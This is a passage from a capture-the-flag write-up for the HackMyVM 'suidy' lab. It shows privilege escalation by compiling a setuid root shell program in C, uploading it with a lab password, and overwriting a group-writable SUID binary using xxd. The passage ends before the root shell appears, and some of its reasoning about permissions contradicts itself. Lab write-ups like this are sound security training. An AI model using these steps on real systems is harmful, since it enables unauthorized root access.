 ### 5. Privilege Escalation to `root`

Since `suidyyyyy` is SUID `root` and SGID `theuser`, and it executes `/bin/bash`, I can exploit this by modifying the binary to execute `/bin/bash -p` instead, which would preserve the effective UID of `root`.

However, I cannot directly modify the binary on the target because it's owned by `root`. The `note.txt` also mentioned that `root` runs a script to ensure the SUID bit is set, implying that the binary might be periodically reset.

The strategy is to:

1. Create a C program that sets UID/GID to 0 (root) and executes `/bin/bash -p`.
2. Compile this C program on the target machine (since `gcc` is available).
3. Overwrite the `suidyyyyy` binary with my compiled exploit.
4. Execute the overwritten `suidyyyyy` to get a root shell.


First, I created `script.c` on my Kali machine:

```c
#include <unistd.h>
#include <stdlib.h>

int main(){
        setuid(0);
        setgid(0); // Also set GID to root for full privileges
        system("/bin/bash -p"); // -p preserves effective UID
        return 0;
}
```

I then uploaded `script.c` to the target machine in `theuser`'s home directory.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/suidy]
└─$ scp ./script.c theuser@192.168.1.103:/home/theuser
theuser@192.168.1.103's password: thepass
script.c                                                                                                                             100%  111    87.3KB/s   00:00
```

On the target, as `theuser`, I compiled `script.c`:

```shellscript
theuser@suidy:~$ gcc script.c -o exploit
```

Now, I need to overwrite `/home/suidy/suidyyyyy` with my `exploit` binary. Since `suidyyyyy` is SUID `root` and SGID `theuser`, `theuser` has write permissions to the group, but not directly to the file as `root`. However, the `suidyyyyy` binary itself has `rwsrwsr-x` permissions, meaning the `theuser` group has write permissions. This allows `theuser` to overwrite the file.

I used `xxd` to convert my `exploit` binary to a hex dump, then converted it back to binary to overwrite `suidyyyyy`. This is a common technique when direct `cp` or `mv` might fail due to permissions or file locking.

```shellscript
theuser@suidy:~$ xxd -p exploit > exploit.hex
theuser@suidy:~$ xxd -r -p exploit.hex > ../suidy/suidyyyyy
```
